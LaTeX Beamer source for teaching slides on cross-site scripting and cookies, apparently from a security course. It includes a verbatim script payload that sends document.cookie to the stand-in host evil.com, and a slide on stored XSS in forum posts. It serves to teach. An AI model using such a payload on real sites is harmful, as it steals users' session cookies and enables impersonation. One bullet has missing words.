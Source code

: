 \subsection{Cookies and XSS}

\begin{frame}[fragile,label=XSSCookies]{cross-site scripting and cookies}
    \begin{itemize}
    \item cross-site scripting: injection into webpage
    \item JavaScript has  and 
    \end{itemize}
\begin{verbatim}
<script>
    var image = new Image();
    image.src = 'http://evil.com/?cookie=' +
            encodeURIComponent(document.cookie);
</script>
\end{verbatim}
    \begin{itemize}
    \item try to load ``image'' from evil.com using URL containing cookie
    \item evil.com operator sees cookie value
    \end{itemize}
\end{frame}


\begin{frame}<0>[fragile,label=storedXSS]{stored cross-site scripting}
\end{frame}

\begin{frame}{stored cross-site scripting}
    \begin{itemize}
    \item example: forum and forum post can contain javascript
    \item everyone visiting forum will run that JavaScript
        \begin{itemize}
        \item attacker gets cookies from everyone
        \item attacker can pretend to be everyone
        \end{itemize}
    \end{itemize}
\end{frame}

